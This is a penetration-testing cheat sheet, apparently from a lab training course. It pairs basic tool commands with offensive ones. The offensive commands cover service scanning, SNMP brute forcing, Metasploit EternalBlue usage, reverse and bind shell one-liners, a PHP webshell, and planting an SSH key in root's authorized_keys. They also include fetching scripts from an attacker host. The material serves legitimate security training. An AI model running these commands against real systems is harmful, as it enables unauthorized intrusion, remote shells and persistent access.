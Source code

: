 # Cheat Sheet

### Basic Tools

| **Command**              | **Description**                      |
| ------------------------ | ------------------------------------ |
| **General**              |                                      |
| `sudo openvpn user.ovpn` | Connect to VPN                       |
| `ifconfig`/`ip a`        | Show our IP address                  |
| `netstat -rn`            | Show networks accessible via the VPN |
| `ssh user@10.10.10.10`   | SSH to a remote server               |
| `ftp 10.129.42.253`      | FTP to a remote server               |
| **tmux**                 |                                      |
| `tmux`                   | Start tmux                           |
| `ctrl+b ctrl+c`          | tmux: new window                     |
| `ctrl+b 1`               | tmux: switch to window (`1`)         |
| `ctrl+%`                 | tmux: split pane vertically          |
| `ctrl+"`                 | tmux: split pane horizontally        |
| `ctrl+->`                | tmux: switch to the right pane       |
| **Vim**                  |                                      |
| `vim file`               | vim: open `file` with vim            |
| `esc+i`                  | vim: enter `insert` mode             |
| `esc`                    | vim: back to `normal` mode           |
| `x`                      | vim: Cut character                   |
| `dw`                     | vim: Cut word                        |
| `dd`                     | vim: Cut full line                   |
| `yw`                     | vim: Copy word                       |
| `yy`                     | vim: Copy full line                  |
| `p`                      | vim: Paste                           |
| `:1`                     | vim: Go to line number 1.            |
| `:w`                     | vim: Write the file 'i.e. save'      |
| `:q`                     | vim: Quit                            |
| `:q!`                    | vim: Quit without saving             |
| `:wq`                    | vim: Write and quit                  |

### Pentesting

| **Command**                                                                                                      | **Description**                                                       |
| ---------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| **Service Scanning**                                                                                             |                                                                       |
| <mark style="color:green;">`nmap 10.129.42.253`</mark>                                                           | Run nmap on an IP                                                     |
| <mark style="color:green;">`nmap -sV -sC -p- 10.129.42.253`</mark>                                               | Run an nmap script scan on an IP                                      |
| <mark style="color:green;">`locate scripts/citrix`</mark>                                                        | List various available nmap scripts                                   |
| <mark style="color:green;">`nmap --script smb-os-discovery.nse -p445 10.10.10.40`</mark>                         | Run an nmap script on an IP                                           |
| <mark style="color:green;">`netcat 10.10.10.10 22`</mark>                                                        | Grab banner of an open port                                           |
| <mark style="color:green;">`smbclient -N -L \\\\10.129.42.253`</mark>                                            | List SMB Shares                                                       |
| <mark style="color:green;">`smbclient \\\\10.129.42.253\\users`</mark>                                           | Connect to an SMB share                                               |
| <mark style="color:green;">`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`</mark>                     | Scan SNMP on an IP                                                    |
| <mark style="color:green;">`onesixtyone -c dict.txt 10.129.42.254`</mark>                                        | Brute force SNMP secret string                                        |
| **Web Enumeration**                                                                                              |                                                                       |
| <mark style="color:green;">`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`</mark> | Run a directory scan on a website                                     |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`                            | Run a sub-domain scan on a website                                    |
| `curl -IL https://www.inlanefreight.com`                                                                         | Grab website banner                                                   |
| `whatweb 10.10.10.121`                                                                                           | List details about the webserver/certificates                         |
| `curl 10.10.10.121/robots.txt`                                                                                   | List potential directories in `robots.txt`                            |
| `ctrl+U`                                                                                                         | View page source (in Firefox)                                         |
| **Public Exploits**                                                                                              |                                                                       |
| `searchsploit openssh 7.2`                                                                                       | Search for public exploits for a web application                      |
| `msfconsole`                                                                                                     | MSF: Start the Metasploit Framework                                   |
| `search exploit eternalblue`                                                                                     | MSF: Search for public exploits in MSF                                |
| `use exploit/windows/smb/ms17_010_psexec`                                                                        | MSF: Start using an MSF module                                        |
| `show options`                                                                                                   | MSF: Show required options for an MSF module                          |
| `set RHOSTS 10.10.10.40`                                                                                         | MSF: Set a value for an MSF module option                             |
| `check`                                                                                                          | MSF: Test if the target server is vulnerable                          |
| `exploit`                                                                                                        | MSF: Run the exploit on the target server is vulnerable               |
| **Using Shells**                                                                                                 |                                                                       |
| `nc -lvnp 1234`                                                                                                  | Start a `nc` listener on a local port                                 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                                            | Send a reverse shell from the remote server                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`                               | Another command to send a reverse shell from the remote server        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`                                    | Start a bind shell on the remote server                               |
| `nc 10.10.10.1 1234`                                                                                             | Connect to a bind shell started on the remote server                  |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                                                 | Upgrade shell TTY (1)                                                 |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                                                      | Upgrade shell TTY (2)                                                 |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                                                | Create a webshell php file                                            |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                                                    | Execute a command on an uploaded webshell                             |
| **Privilege Escalation**                                                                                         |                                                                       |
| `./linpeas.sh`                                                                                                   | Run `linpeas` script to enumerate remote server                       |
| `sudo -l`                                                                                                        | List available `sudo` privileges                                      |
| `sudo -u user /bin/echo Hello World!`                                                                            | Run a command with `sudo`                                             |
| `sudo su -`                                                                                                      | Switch to root user (if we have access to `sudo su`)                  |
| `sudo su user -`                                                                                                 | Switch to a user (if we have access to `sudo su`)                     |
| `ssh-keygen -f key`                                                                                              | Create a new SSH key                                                  |
| <mark style="color:green;">`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`</mark>   | Add the generated public key to the user                              |
| <mark style="color:green;">`ssh root@10.10.10.10 -i key`</mark>                                                  | SSH to the server with the generated private key                      |
| **Transferring Files**                                                                                           |                                                                       |
| `python3 -m http.server 8000`                                                                                    | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                                                                         | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                                           | Download a file on the remote server from our local machine           |
| <mark style="color:green;">`scp linenum.sh user@remotehost:/tmp/linenum.sh`</mark>                               | Transfer a file to the remote server with `scp` (requires SSH access) |
| <mark style="color:green;">`base64 shell -w 0`</mark>                                                            | Convert a file to `base64`                                            |
| <mark style="color:green;">`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`</mark>                              | Convert a file from `base64` back to its orig                         |
| <mark style="color:green;">`md5sum shell`</mark>                                                                 | Check the file's `md5sum` to ensure it converted correctly            |
